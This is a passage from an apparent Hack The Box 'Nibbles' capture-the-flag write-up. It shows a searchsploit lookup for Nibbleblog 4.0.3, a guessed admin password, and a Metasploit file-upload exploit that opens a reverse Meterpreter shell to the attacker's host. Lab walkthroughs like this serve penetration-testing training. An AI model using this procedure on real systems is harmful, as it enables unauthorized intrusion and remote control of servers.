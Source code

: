 2019/09/29 10:50:00 Finished
===============================================================
{% endhighlight %}

Since we had juicie information "Nibbleblog v4.0.3", try to look for well-known exploit.<br>
{% highlight shell %}
root@kali:~# searchsploit nibble
------------------------------------------------------- ----------------------------------------
 Exploit Title                                         |  Path
                                                       | (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
Nibbleblog 3 - Multiple SQL Injections                 | exploits/php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)  | exploits/php/remote/38489.rb
------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

Sounds there is a RCE with metasploit.<br>
However, we need a guessing to figure out what is the credential.<br>
This time, the username is same as default and password was the server name.
{% highlight shell %}
admin:nibbles
{% endhighlight %}

Then, try to execute RCE with following procedure.
{% highlight shell %}
msf5 > search nibble

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


msf5 > use exploit/multi/http/nibbleblog_file_upload

msf5 exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
rhost => 10.10.10.75

msf5 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin

msf5 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles

msf5 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog

msf5 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.30:4444
[*] Sending stage (38247 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.30:4444 -> 10.10.10.75:37036) at 2019-09-29 11:25:40 +0300
[+] Deleted image.php

meterpreter > getuid
Server username: nibbler (1001)
{% endhighlight %}
